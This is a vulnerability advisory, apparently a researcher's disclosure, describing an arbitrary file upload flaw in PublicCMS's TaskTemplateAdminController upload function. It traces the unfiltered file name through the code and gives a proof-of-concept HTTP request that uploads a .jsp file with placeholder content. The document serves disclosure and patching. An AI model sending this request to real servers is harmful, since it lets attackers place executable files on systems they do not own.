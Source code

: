 ## PublicCMS TaskTemplateAdminController.java#upload arbitrary file upload



Vulnerability Product:PublicCMS
Vulnerability version:<=V4.0.202302.e
Vulnerability type:File Upload
Vulnerability Details：

Locate src/main/java/com/publiccms/controller/admin/sys/TaskTemplateAdminController.java#upload and find that this function directly splices the file name when uploading the file without any filtering.

![image-20240823193910382](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240823193910382.png)

Follow up  CmsFileUtils.upload(file, destFullFileName);

![image-20240823193948015](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240823193948015.png)



You can see that after reading the uploaded file name and content, the file is created directly without any filtering. Therefore, there is an arbitrary file upload vulnerability.

**POC**

```java
POST /admin/taskTemplate/doUpload?callbackType=closeCurrent&navTabId=taskTemplate/list HTTP/1.1
Host: 127.0.0.1:8888
Content-Length: 695
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8888
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynd1o7WDmUlZLxx5Z
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: iframe
Referer: http://127.0.0.1:8888/admin/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PUBLICCMS_ADMIN=1_7b8729cf-5dbc-4ddf-966e-1f7133252f49; JSESSIONID=3EE544D481740B2F00417DF8C18F3769
Connection: keep-alive

------WebKitFormBoundarynd1o7WDmUlZLxx5Z
Content-Disposition: form-data; name="_csrf"

7b8729cf-5dbc-4ddf-966e-1f7133252f49
------WebKitFormBoundarynd1o7WDmUlZLxx5Z
Content-Disposition: form-data; name="path"


------WebKitFormBoundarynd1o7WDmUlZLxx5Z
Content-Disposition: form-data; name="files"; filename="a.jsp"
Content-Type: text/plain

aaaaaa
------WebKitFormBoundarynd1o7WDmUlZLxx5Z
Content-Disposition: form-data; name="overwrite"

on
------WebKitFormBoundarynd1o7WDmUlZLxx5Z
Content-Disposition: form-data; name="encoding"

utf-8
------WebKitFormBoundarynd1o7WDmUlZLxx5Z
Content-Disposition: form-data; name="ajax"

1
------WebKitFormBoundarynd1o7WDmUlZLxx5Z--

```

![image-20240823194113399](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240823194113399.png)

